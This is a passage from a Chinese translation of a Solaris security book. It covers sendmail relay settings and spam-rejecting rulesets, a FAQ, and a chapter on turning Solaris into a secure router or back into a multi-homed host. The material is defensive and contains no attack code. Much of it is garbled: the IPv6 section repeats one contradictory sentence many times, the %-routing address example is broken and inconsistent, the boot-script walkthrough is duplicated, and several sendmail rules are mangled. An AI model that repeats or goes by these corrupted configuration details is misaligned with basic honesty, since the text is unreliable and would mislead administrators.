这告诉你的本地服务器（例如 `mail.nox.net`），在向 `incoming-traveller.com` 的用户发送邮件时，联系 `mailhost.incoming-traveller.com`。许多 ISP 通常在一台服务器上托管多个域名，即虚拟域名或虚拟主机。假设 Incoming 收购了 Nox，并将所有邮件服务移动到单一邮件服务器。在客户意识到到这一变化之前，他们可能继续向 `user@nox.net` 发送邮件。为了防止此类邮件被退回，我们需要为 `nox.net` 创建一个 MX 记录，指向 `mailhost.incoming-traveller.com`。我们将适当编辑您的 DNS 区域文件，然后 `nox.net` 的 MX 就会将 `user@nox.net` 的邮件发送给您。该邮件将正确路由到 `incoming-traveller.com` 的服务器进行路由和投递。

您可能还会运行 `sendmail` 支持的一些更危险的功能。假设您的邮件服务器被黑了，您发现了一个异常的 `sendmail.mc` 文件。如果您查看该文件内部，可能会看到以下一个或多个功能：

```
FEATURE(relay_local_from)

FEATURE(loose_relay_check)

FEATURE(promiscuous_relay)
```

第一个功能告诉 `sendmail` 中继任何标头中带有本地发件者地址的邮件。在这种情况下，一封 From 为 `<someuser>@incoming-traveller.com` 的邮件将被中继。这种形式的中继非常有问题，因为 From 头部信息可以非常容易地伪造。这无法提供多少保护，甚至完全没有。另一方面，对于恶意的垃圾邮件发送者来说，这是一个非常有用的功能。如果你在未知的 `sendmail.mc` 文件中看到此类内容，特别是在没有解释注释的情况下，应该立即检查您的邮件主机，查看它是否允许基于标头的中继。

```
teal@incoming-traveller.com@nox.net
```


此字符串意味着：将此消息发送到 `noc.net` 的 `mailhost`，`mail.net`。我们期望 `noc.net` 读取 `%` 符号并剥离 `@` 及其右侧的所有内容。这将使服务器获得以下内容：

```
tealc@incoming-traveller.com
```

接下来 `sendmail` 应该移除 `%` 并将其替换为 `@`，这样我们就得到了：

```
tealc@incoming-traveller.com
```

现在 `sendmail` 应该将这封邮件转发给 `mailhost.incoming-traveller.com` 的用户 `tealc`。

# 跟踪附件

如果你用文本编辑器打开 `/etc/sendmail.cf` 并查看文件的下半部分，你会注意到相当多的规则集（`rulesets`）。`sendmail` 使用这些规则来确定许多事项，从邮件地址的正确格式，到允许或拒绝邮件中继的正确程序。从基本意义上说，`sendmail` 规则使用规则的左侧（LHS）对邮件的整体或部分进行匹配，然后执行规则右侧（RHS）中后续的操作。例如：

```
$local_check_header
```

此规则非常简单。LHS 监控邮件标头中的 `Subject:` 部分。一旦匹配到 `Subject:` 短语，规则的 RHS 就会告诉 `sendmail` 切换到 `local_check_header` 规则集。在 `local_check_header` 中，我们发现了以下内容：

```
Slocal_check_header
```

```
RHello There Business $* $$error $: $(SpamMessage)

RRe: 'YOU'VE WON!' $* $$error $: $(SpamMessage)
```

`Slocal_check_header` 仅表示我们规则集的名称。下一行的 LHS 匹配标头中 `Subject:` 部分之后的任何 `Hello There Business` 短语，然后紧跟一个空格，以及一个可能在主题标头稍后出现的额外字符的通配符。RHS 告诉 `sendmail` 执行几个操作。首先，告诉 `sendmail` 调用特殊的错误邮件发送程序，表示我们将向这封邮件的发送者返回错误消息。然后，指导 `sendmail` 执行 `SpamMessage` 例程中的宏和过程。为了彻底起见，我们会在初始检查和最终规则集之间定义此例程。整个包看起来如下（我们再次梳理一遍以便说明）：

```
# 挂载到标头（H 类）

HSubject: $$local_check_header

# 在规则集匹配成功后执行的 D 宏

D(SpamMessage)"553 Your message may contain spam.

Please e-mail abuse@$j if you have questions or concerns."
```

```
# 规则集

Slocal_check_header

RHello Business $* $$error: ${SpamMessage}

Re: YOU'VE WON! $* $$error: ${SpamMessage}
```


困惑了？别担心。以下是你的 Sendmail 服务器在处理入站邮件时思考的步骤演练：

- 我是 sendmail，我收到了一封来自 mail.nox.net 的邮件。我现在开始处理这封邮件。
- <此处是默认规则集的忙碌工作>
- 我现在要检查这封邮件，因为它的标头中有 Subject:。
- 我将通过 local_check_header 规则集处理这封邮件。
- 我正在检查 Subject: 行是否匹配 Hello There Business，其后紧跟着一个空格和零或多个字符。
- 没有匹配项。下一条规则。
- 我正在检查 Subject 行是否匹配 Re:YOU'VE WON!，其后紧跟着一个空格和零或多个字符。
- 我在这里匹配到了！我将检查此规则的 RHS。
- 此规则的 RHS 告诉我处理此类并执行 SpamMessage。


# 监控网页使用情况与活动

- Perl 是编写简单 Web 脚本的优秀工具。由于它已包含在 Solaris 8 中，请充分利用其卓越的字符串处理能力。
- 监控你的服务器是否存在过多的 404 结果。可能是搜索引擎或其他页面包含了过时的链接信息。你可能需要更新这些信息，以引导用户进入网站的正确部分。
- 如果你的服务器有受密码保护的部分，请监控日志文件中的是否存在过多的 403 结果。几个错误可能表示忘记了密码，而几十或上百个错误可能表明有人对你的网站进行暴力破解攻击。

## 配置 Sendmail 的安全功能

- `access_db` 功能允许你在决定接收谁的邮件或为谁发送邮件方面具有极大的灵活性。
- Sendmail 默认关闭中继功能。在允许即使是有限的中继时请务必小心。
- 你应该理解 sendmail 的所有中继功能，并密切关注邮件服务器活动。如果你发现可疑的 `sendmail.cf` 或 `sendmail.mc` 中存在异常条目，请怀疑存在 UBE 活动。
- 利用 sendmail 规则集来帮助过滤反感或不需要的电子邮件，但要谨慎使用。规则集在 sendmail 中通常有很高的销。
- 在进行任何实际更改之前，先理解 sendmail 的中继配置选项。如果你的更改没有生效，请准备好回滚。



## 常见问题

以下常见问题由本书作者解答，旨在衡量你对本章所陈述概念的理解程度，并帮助你在现实生活中实现这些概念。如果你对本章的问题希望作者解答，请访问 www.syngress.com/solutions 并点击“Ask the Author”表单。

Q：Apache 是 Sun 的产品吗？

A：不是。Apache 由 Apache 软件基金维护和发布。你可以在 www.apache.org 找到最新版本，以及详细的教程和详细的配置信息。

Q：哪一个更好——Sun 的 sendmail 还是 Sendmail 联盟的 sendmail？

A：从技术上讲，Sun 的版本基于联盟版本，因此两者之间不孰优劣。然而，当发现漏洞或安全缺陷时，联盟版本的修复速度更快，因此它往往是两者中更安全的。

Q：我应该在我的邮件服务器上允许中继吗？

A：实际上，你可能需要。你需要根据对安全和灵活性的需求来允许中继，尽管如果你处于一个有很多远程用户的组织中（特别是拨号用户），你可能需要允许某种程度的中继。此外，如果你与另一个组织有共同协议，以便在灾难或故障发生时缓存邮件（通过备份 MX 记录或中继递送），你可能需要让该组织为你缓存和中继邮件，反之亦然。你还需要配置 Sendmail 来中继内部系统。例如，如果 Sendmail 用作 Internet 与运行 Exchange 和 NT 系统的企业局域网之间的网关，则 Sendmail 需要配置为运行 exchange SMTP 服务的系统提供中继。

Q：过滤 sendmail 处理的病毒的最佳方法是什么？

A：有几种工具专门为此。其中一些是免费软件，另一些是商业软件。你应该根据需求评估每种产品，并做出最适合环境的选择。某些产品甚至与某些防火墙良好集成。Sendmail 本身真的不应该被用作内容过滤器——它从未为该目的而设计。

Q：如果有人发邮件给我们的本地滥用账户并告诉我们是一个开放中继，我该怎么办？

A：首先，你需要测试你的服务器。我推荐 John Levine 的 helptest 脚本，位于 www.unicom.com/sw/lytest/。如果脚本确定你的中继是开放的，请检查你的 `sendmail.mc` 文件，进行任何更改并生成新的 `sendmail.cf` 文件。停止并重启 sendmail 然后再次测试。

# 第 8 章 配置 Solaris 作为安全路由器和防火墙

本章解决方案：

- 配置 Solaris 作为安全路由器
- 配置 Solaris 作为安全路由器
- 配置 Solaris 作为防火墙
- Solaris 作为路由器
- 总结
- 常见问题

引言：通过伯克利软件发行版（BSD），Solaris 是一个操作系统。在本章中，我们将首先检查路由器、网关的功能以及如何使用它们。接下来，我们将讨论使用 Solaris 作为防火墙的安全影响。我们还将查看访问控制。最后，我们将讨论实现安全路由器所需的步骤。

# 配置 Solaris 作为安全路由器

路由器是一个具有至少两个连接到不同网络接口的系统。路由器允许流量进入一个接口并从另一个接口输出。接口松义定义为允许其他系统通过以太网、串口端口、点对点链路或其他方法进行通信的物理连接。我们不会讨论如何决定流量到达其目的地；该问题不在本文范围之内。关于流量和 TCP/IP 的良好参考书籍是 W. Richard Stevens 写的《TCP/IP Illustrated, Volume 1: The Protocols》。

## 推理与依据

让我们尝试回答那个不可避免的问题：“为什么要使用 Solaris？” 目前有许多平台和设计可以作为低成本路由器，所有这些都是可行的解决方案。在选择其中一个而非其他的关键因素是硬件的可用性、分配部署解决方案的时间以及业务需求。Solaris 是一个很好的选择，因为它稳定、安全安全且易于部署。

Solaris 是一个稳定的操作系统，能够数月甚至数年的持续运行无需重启。Solaris 是可扩展的，能够在从工作站大小到企业级系统的大和小环境中运行。此外，Solaris 是一个易于安全的操作系统。在不重启系统的情况下关闭系统所有服务、对运行中的内核进行配置更改以及在系统中创建多层访问控制的能力，使得 Solaris 成为具有 110% 运行要求网络的完美选择。

最后，Solaris 易于作为路由器或网关部署。Solaris 的默认安装通过启动配置与连接网络通信的接口，提供了同一网络不同部分甚至不同网络之间的连通性。这种简单的特性是一把双刃剑。它可以轻松部署系统来执行重要的网络流量路由任务。它会导致两个网络之间出现无意且不受限制的路径，这种路径可能被用来利用攻击。

## 路由条件

在默认安装中，如果满足一组特定条件，Solaris 会路由流量。这些条件是：


## 第8 章 · 将 Solaris 配置为安全路由器和防火墙

- 系统至少有两个接口。
- `/etc` 目录包含至少两个 `hostname.interface` 文件，这些文件在系统启动时配置接口。
- 存在标准的 `/etc/rc2/S69net` 文件。

第一个条件指的是任何两个接口，不受限于卡类型的差异（例如，一个 10BaseT 网卡和一个 100BaseT 网卡）或类型的差异（例如，以太网和点对点连接）。第二个条件指的是 `hostname.interface` 文件。例如，对于之前提到的网卡，一个 `hostname.le0` 和一个 `hostname.hme0` 文件分别代表 10Mit（或 `le0` 接口）和 100Mit（或 `hme0` 网卡）。

第三个条件指的是系统运行级别 2 时执行的脚本。这非常重要，因为系统管理员经常会修改 `S69net` 脚本来增强安全性。如果系统被用作路由器，建议对系统进行初始安装，以确保网络的完整性。如果无法进行此类安装，至少应将这两个脚本替换为已知的未修改副本，或经过 Solaris 指纹数据库验证的副本。在本章中，我们将讨论如何使用新方法和现有安装作为路由器。

当系统启动时，首先执行 `/etc/rc/S30network.sh` 脚本，该脚本配置 `/etc` 中具有 `hostname.interface` 文件的系统回环接口和其他接口。当系统进入运行级别 2 时，它执行 `S69net` 脚本，该脚本处理建立网络连接的所有必要功能。此脚本旨在启动具有多个网络配置选项的系统。在这里，我们只回顾与我们的讨论相关的细节。

## S30network.sh 脚本

为了更好地了解网络连接如何在系统上进行初始化，让我们先查看 `S30network.sh` 脚本的内部。`S30network.sh` 是位于 `/etc/init.d/` 的主脚本的节点链接（inode-link）。该脚本引导进程启动。它在启动过程早期执行，以满足任何可能依赖主机提供某些服务的其他系统的需求。无盘客户端就是此类主机的一个示例。

让我们看看该脚本中的一些代码片段。通常，将作为路由器的主机不会依赖 DHCP 或 NIS 等内容，因为这些增加了风险，并可能导致漏洞概率增加。


暴露和潜在的侵害。这可能允许攻击者利用网络的阿琉斯斯之踵。因此，我们检查与我们的讨论相关的代码段。足以说，路由器不应依赖其他系统进行任何操作。

在我们脚本的第一个示例中，我们在第 22 行有以下代码：

```


`/sbin/ifconfig lo0 plumb 127.0.0.1 2>&1 >dev/null`

此命令负责在系统启动时启动回环接口。这是系统对接口的首次初始化。不久之后，我们有这一段从第 71 行开始的代码：

```
interface_names=" echo /etc/hostname.*[0-9] 2>/dev/null"
if [ "$interface_names" != "/etc/hostname.*[0-9]" ]; then
```

这段代码开始解析 `hostname.interface` 文件，并将它们放入 `$interface_names` 环境变量中。接口被放入环境变量 `$1` 中，并在第 106 行对接口进行配置（plumb）：

```
/sbin/ifconfig $1 plumb
```

最后，当运行脚本第 123 行时，通过以下代码配置接口：

```
/sbin/ifconfig $1 inet $ifcmams \
2>&1 >dev/null
```

当此脚本完成时，`/etc` 目录中带有 `hostname.interface` 配置文件的所有网络接口都已配置完毕并准备好通信。系统完成对 `/etc/rcS` 目录中初始化脚本的执行，并在正常情况下，继续进入多用户模式。程序移动到 `/etc/rc`。

## S69inet 脚本

`S69inet` 在系统达到运行级别 2 时执行。它是位于 `/etc/init.d/` 的主脚本的节点链接。该脚本引导进程启动。它在启动过程早期执行，以满足任何可能依赖主机提供某些服务的其他系统的需求。无盘客户端就是此类主机的一个示例。

`S69inet` 处理建立网络连接的必要功能。通常，将作为路由器的主机不会依赖 DHCP 或 NIS 等内容，因为这些增加了风险，并可能导致漏洞概率增加。这可能允许攻击者利用网络的阿琉斯斯之踵。因此，我们检查与我们的讨论相关的代码段。足以说，路由器不应依赖其他系统进行任何操作。

在我们脚本的第一个示例中，我们在第 22 行有以下代码：

```
/sbin/ifconfig lo0 plumb 127.0.0.1 2>&1 >dev/null
```

此命令负责在系统启动时启动回环接口。这是系统对接口的首次初始化。不久之后，我们有这一段从第 71 行开始的代码：

```
interface_names=" echo /etc/hostname.*[0-9] 2>/dev/null"
if [ "$interface_names" != "/etc/hostname.*[0-9]" ]; then
```

这段代码开始解析 `hostname.interface` 文件，并将它们放入 `$interface_names` 环境变量中。接口被放入环境变量 `$1` 中，并在第 106 行对接口进行配置（plumb）：

```
/sbin/ifconfig $1 plumb
```

最后，当运行脚本第 123 行时，通过以下代码配置接口：

```
/sbin/ifconfig $1 inet $ifcmams \
2>&1 >dev/null
```


当此脚本完成时，`/etc` 目录中带有 `hostname.interface` 配置文件的所有网络接口都已配置完毕并准备好通信。系统完成对 `/etc/rcS` 目录中初始化脚本的执行，并在正常情况下，继续进入多用户模式。程序移动到 `/etc/rc`。

## 将 Solaris 配置为安全路由器和防火墙

具有两个以上接口（包括回环接口）的 Solaris 默认安装如果没有通过 DHCP 配置，将默认路由流量。此过程当然取决于系统是否被人员修改过。在某些情况下，可能无法在机器上重新安装操作系统。在这种情况下，我们需要手动配置系统。

让我们对已配置的系统进行检查，以确保其准备好处理流量。首先，我们列出需要检查并在必要时修改的项目。我们以分步的方式进行，以便注意细节并确保不会遗漏可能导致目标失败的步骤。遵循分步说明，我们将简要讨论每个步骤以及注意事项。

### 七点检查清单

- 1. 检查通过 DHCP 配置的接口。
- 2. 确保每个要配置的接口在 `/etc` 中都有相应的 `hostname.interface` 文件，并且文件内容有效。
- 3. 检查 `/etc/rcS/S30network.sh` 文件（指向 `/etc/init.d/network` 的节点链接）是否有修改迹象。
- 4. 检查 `/etc/rc2.d/S69inet` 文件（指向 `/etc/init.d/inetinit` 的节点链接）。
- 5. 检查 `/etc/router` 文件，如果存在，将其删除。
- 6. 系统启动后，轮 `/dev/ip` 获取 `ip_forwarding` 变量的状态。
- 7. 在隔离环境中测试系统以确保路由正常。

### 第一步：检查通过 DHCP 配置的接口

在第一步中，我们验证所有接口是否都是使用静态信息配置的。正如之前提到的，使用通过 DHCP 配置的系统

## 第 8 章 · 将 Solaris 配置为安全路由器和防火墙

DHCP 不会被配置为路由器。检查配置最简单的方法是在运行的系统上使用 `ifconfig` 命令并检查输出结果。在 `ifconfig` 中使用 `-a` 标志通常会显示相关信息，如图 8.1 所示。

### 图 8.1 hme0 接口已通过 DHCP 配置



### 步骤 2：确保每个接口都有对应的文件

确保要配置的每个接口在 `/etc` 下都有一个对应的主机名文件，并且文件内容有效。在系统引导时，每个要配置的接口都必须有一个 `hostname.interface` 文件。不存在 `hostname.interface` 文件将导致接口不存在。同样，格式不正确的 `hostname.interface` 文件会导致接口配置错误。

对于系统要配置的每个接口，请创建一个 `hostname.interface` 文件。例如，如果系统上有两个 100Mbit 接口，则 `/etc` 目录下必须有 `hostname.hme0` 和 `hostname.hme1` 文件。可以通过查看命令的输出来发现设备名称，如图 8.2 所示。

### 图 8.2 显示引导期间检测到的接口的 dmesg 输出



确保接口文件包含以下两种类型之一：IP 地址，或者在 `/etc/hosts` 文件中有对应条目的主机名。在标准配置中，主机名放置在 `hostname.interface` 文件中，并在 `/etc/hosts` 文件中设置该主机名的条目。系统启动时，它会根据 `/etc/hosts` 文件解析此主机名并用相应的 IP 地址配置接口。虽然可以将 IP 地址直接放置在 `hostname.interface` 文件中，但为了一致性，建议其中必须包含 IP 地址或主机名，不能两者兼有。

### 步骤 3 和 4：检查 /etc/rc.S/S30network.sh 和 /etc/rc2.d/S69inet 文件

检查 `/etc/rc.S/S30network.sh` 文件（指向 `/etc/init.d/network` 的节点链接）是否有修改迹象。此外，检查 `/etc/rc2.d/S69inet` 文件（指向 `/etc/init.d/init` 的节点链接）。系统管理员修改启动脚本以创建更安全系统的常用做法。然而，这种做法对于继承此类系统的人可能会导致问题，因为出现的问题无法立即追溯。两个经常修改的脚本是 `/etc/rc2.d/S30network.sh` 和 `/etc/rc2.d/S69inet`。

通常，讨论系统加固的文档会鼓励管理员修改这些文件并更改或注释代码段以创建更安全的配置。某些自动化系统加固工具也会使用这些脚本。当系统的任务和配置发生变化时，这些场景会导致不可预测的行为并产生大量的挫败感。

在第三和第四步中，我们验证这两个文件的完整性。我们可以通过三种方法之一来实现。第一种方法是最不可靠的，即使用编辑器通过肉眼检查文件是否有修改迹象，并检查文件的修改时间。第二种更可靠的方法是将文件与已知的未修改文件副本进行比较。第三种最安全的方法是将文件的 md5 和（sum）与 Sun 指纹数据库（Sun Fingerprints Database）中的已知和值进行比较。如有疑问，请从 CD-ROM 恢复。

### 步骤 5：检查 /etc/notrouter 文件，如果存在则删除

检查是否存在 `/etc/notrouter` 文件，如果存在则将其删除。`/etc/notrouter` 文件用于防止系统被配置为路由器。默认情况下典型系统中不存在此文件，且安装过程中也没有创建它的配置选项。一个配置正确的多宿主机不会创建此文件。因此，新安装的系统将没有此文件，这不值得担心。但是，您应该手动检查之前安装的主机。如果存在存在，请将其删除。

### 步骤 6：轮询 /dev/ip 获取 ip_forwarding 变量的状态

系统引导后，轮询 `/dev/ip` 以获取 `ip_forwarding` 变量的状态。如果没有开启 IP 转发，系统将不会路由流量。查询 IP 的命令是 `ndd -dev/ip`。因此，如果您已之前的配置步骤，请重启系统，并将轮询 IP内核模块的 IP 转发变量以确保系统已准备好路由流量。结果为布尔值。如果变量返回 1，说明配置成功且系统准备好路由。如果变量返回 0，说明过程某处出错，系统将不会路由流量。

### 步骤 7：测试系统

在隔离环境中测试系统以确保流量路由。在最后一步，应进行测试以确保系统功能正常。创建一个私有的、隔离的网络段来测试路由器的功能，并确保配置正确、可靠且高效。


## 安全优化

Solaris 系统上与 TCP/IP 相关的许多参数可以修改以提供增强的安全。ARP、IP、TCP、UDP 和 ICMP 的默认配置可能无法提供最高级别的安全。为了简洁起见，我们不会深入探讨此主题，也不对其进行简要讨论。那样对该主题不公平。该主题在 Sun Blueprints 的 Keith Watson 和 Alex Noodergraaf 编写的《Solaris Operating Environment Network Settings for Security》中已有详细介绍。他们的文档可以通过 www.sun.com/blueprints 获取。

## 安全影响

如果没有一个安全的路由器，你的网络安全或完整性无从谈起。因此，作为路由器的系统实现可以从设计上就是安全的。这种考虑必须在系统设计的最初做出，并在部署和随后的维护中勤勉遵守。设计安全路由器的复杂性在本书的其他部分有详细介绍。这里我们提供一些通用指南。

## 最小化安装

（注：此处原文后续为大量重复内容，已按要求剔除重复输出）

# 最小化用户

Solaris 系统是一个多用户系统。然而，路由器不应是一个多用户系统。允许普通用户访问一个整个网络流量流经的系统不仅是危险的，更是鲁莽的。对路由器的 Shell 访问应仅限于管理人员并受到严格监管。路由器不应通过处理电子邮件或其他此类服务给自己带来不必要的关注。该系统至关重要这一点是不言而喻的。

# 最小化动态信息

任何网络中一个可能变成问题的特性都是动态信息。此类信息包括路由协议、名称服务等。这些服务的设计是为了让网络管理变得更简单，但此类服务的设计并非最安全。

路由器应限制其依赖的动态信息数量。Solaris 在启动时通常会启动 `in.routed` 和 `in.radisc` 守护进程，通过 UDP 和 ICMP 获取路由信息。对于任何依赖动态更新的服务，都可能生成虚假数据并发送到主机，这可能导致拒绝服务或其他攻击。因此，最佳实践是消除路由器上所有依赖于动态数据的服务，包括 `in.radisc` 和 `in.routed`。

# 最小化明文通信

关于极简主义的最后一点：使用尽可能少的明文与系统进行通信是最佳实践。尽管我们可以构建地球上最坚固的主机并并用武装卫兵包围它，但如果我们通过一个可以被潜在入侵者拦截的通道与系统通信，那么我们的努力将付诸东流。

最佳策略是使用可用的 Secure Shell `SSH` 协议实现之一。如果你为系统增加了更多的通信和管理手段，例如基于 Web 的配置界面或可能是基于 Web 的入侵检测日志分析器，请通过加密安全的通道进行。任何提供远程交互式通信的服务都容易受到嗅探或连接劫持的影响。确保通信完整性的唯一方法是通过密码学。


# 取消 Solaris 路由

我们之前讨论过将 Solaris 配置为路由器的过程。我们讨论了配置和实施涉及的一些注意事项。我们还讨论了使 Solaris 从默认安装或之前实施的安装能够作为路由器运行所需的步骤。

在本节中，我们将查看 Solaris 路由器并将其恢复主机阶段。一如既往，在改变系统的用途和任务之前，对系统进行初始安装是最佳实践。然而，这并不是一个选项。我们通过分步骤的场景讨论了将现有系统更改为路由器的过程。在本节中，我们将讨论一个将系统从路由器更改为多宿主机的逐步程序列表。

# 三点检查清单

让我们看看确保系统不路由流量的步骤。正如之前所做的，我们创建了一个配置和检查系统的逐步程序列表。在遵循列表之后，我们对这些步骤进行了简要讨论：

- 1. 检查是否存在 `/etc/notrouter` 文件。如果没有，则创建它。
- 2. 系统重启后检查 IP 内核模块中 `ip_forwarding` 的值。
- 3. 通过尝试通过系统的另一个接口访问其中一个接口来测试系统。

此检查清单中的每一步将在后续章节中进行更详细的介绍。

# 第一步：检查 /etc/notrouter 文件

检查 `/etc/notrouter` 文件。如果不存在，则创建它。如前所述，系统在启动时并在确定其将作为路由器之前会检查许多事项。当执行 `/etc/rc.2/S69inet` 时，它会测试 `/etc/notrouter` 文件的存在。如果找不到此文件，它将作为路由器运行。然而，如果发现了此文件，它将作为主机运行。你可以简单地使用 `touch` 命令创建此文件。

# 第二步：检查 ip_forwarding 值

在系统重启后检查 IP 内核模块中 `ip_forwarding` 的值。在创建 `/etc/notrouter` 文件并重启系统后，检查 `ip_forwarding` 变量。当 `/etc/rc.2/S69inet` 执行并发现该文件时，`ip_forwarding` 变量应设置为 0。

# 第三步：测试系统

通过尝试通过系统的另一个接口来测试系统。此测试的目的是确认系统的一个接口可以通过另一个接口访问。在典型的多宿主主机配置中，系统连接到不同的网络段且无法与另一个通信。你可以使用网络工具执行此测试。运行测试的一种方法是使用 `traceroute` 功能。

在示例中，我们看到 `traceroute` 在 Solaris 机器上执行，流量指向具有两个接口的 Solaris 机器。`-g` 标志指定了网关是具有两个接口的 Solaris 系统。结束是系统的另一个接口。多宿主机的成功配置会导致此测试失败。

# IP 版本 6

从 2000 年 2 月发布的版本开始，Solaris 8 支持 IP 版本 6。无法配置一个接口与网络上的 IPv6 主机通信。无法配置一个接口与网络上的 IPv6 主机通信。无法配置一个接口与网络上的 IPv6 主机通信。无法配置一个接口与网络上的 IPv6 主机通信。无法配置一个接口与网络上的 IPv6 主机通信。无法配置一个接口与网络上的 IPv6 主机通信。无法配置一个接口与网络上的 IPv6 主机通信。

无法配置一个接口与 IPv6 主机通信。这对于 IPv6 都是必要的。这是为了设置 IPv6。无法配置一个一个接口与网络上的 IPv6 主机通信。无法配置一个接口与网络上的 IPv6 主机通信。无法配置一个接口与网络上的 IPv6 主机通信。无法配置一个接口与网络上的 IPv6 主机通信。无法配置一个接口与网络上的 IPv6 主机通信。无法配置一个接口与网络上的 IPv6 主机通信。无法配置一个接口与网络上的 IPv6 主机通信。无法配置一个接口与网络上的 IPv6 主机通信。这是为了设置 IPv6 路由器。在本节中，我们将讨论使 IPv6 正常工作的文件。这些文件包括 `hostname6.interface`、`npd.conf` 文件和 `ip` 文件。

# 配置文件

在 Solaris 系统上部署 IPv6 功能相对容易。一个前提是已经配置了路由流量。一旦完成了配置 IPv4 的步骤，就可以进行 IPv6 的设置。在本节中，我们将讨论使 IPv6 正常工作的文件。这些文件包括 `hostname6.interface`、`npd.conf` 文件和 `ip` 文件。

# hostname6.interface 文件

此文件与之前讨论的 IPv4 `hostname6.interface` 类似。`hostname6.interface` 中包含的项目语法与 IPv4 版本不同。

以前，此文件中只需要 IP 地址或在 `/etc` 目录中有条目的主机名。现在必须在 `hostname6.interface` 文件中输入额外的参数。这些参数在系统启动时由 `/etc/rc.d` 中的 `S30network.sh` 解析，并传递给 `ifconfig`。在示例示例，我们看到一个 IPv6 路由器的 `hostname6.interface` 条目：


`addif sturgeon.mydomain.com/64 up`

我们看到的第一个参数是 `addif`。`addif` 参数是 Solaris `ifconfig` 命令的扩展，它告诉 `ifconfig` 将地址添加到下一个可用接口。由于我们在 `/etc/hostname6.hme0` 文件中看到它，`ifconfig` 会搜索 `hme0` 设备上的下一个可用虚拟接口。解析为 `sturgeon.mydomain.com` 的地址将配置到此接口。在行的末尾，我们看到了 `up` 命令，这使得网络接口变得可用。正如图 8.3 所示，此地址已配置到 `hme0:1` 设备。

正如我们看到的，该地址现在配置了 `ROUTER` 标志，并准备好处理其他主机的流量。然而，在接口启动之前已经采取了额外的配置步骤。稍后我们将讨论这些步骤，此外还有 `ifconfig` 解析地址所需的配置步骤。

一个我们没有提到的微妙点是，我们正在为此接口配置静态地址。这样做是有理由的。对于 IPv6，主机在启动时可以自动配置。这些系统在引导期间轮询网络以获取与其余网络通信的信息。

# 将 Solaris 配置为安全路由器和防火墙 · 第 8 章

我们在路由器上执行操作时，被迫记住 `in.ndpd` 在启动时分配的链路本地地址（`link-local address`）。这个地址通常会被记住，因为它通常由我们的网络信息和接口的介质访问控制（MAC）地址组成。无论我们为 Solaris 配置了静态 IPv6 地址，链路本地地址在设计上都是配置好的。

## 图 8.3 重启后附加到 hme0:1 接口的已配置 IPv6 地址

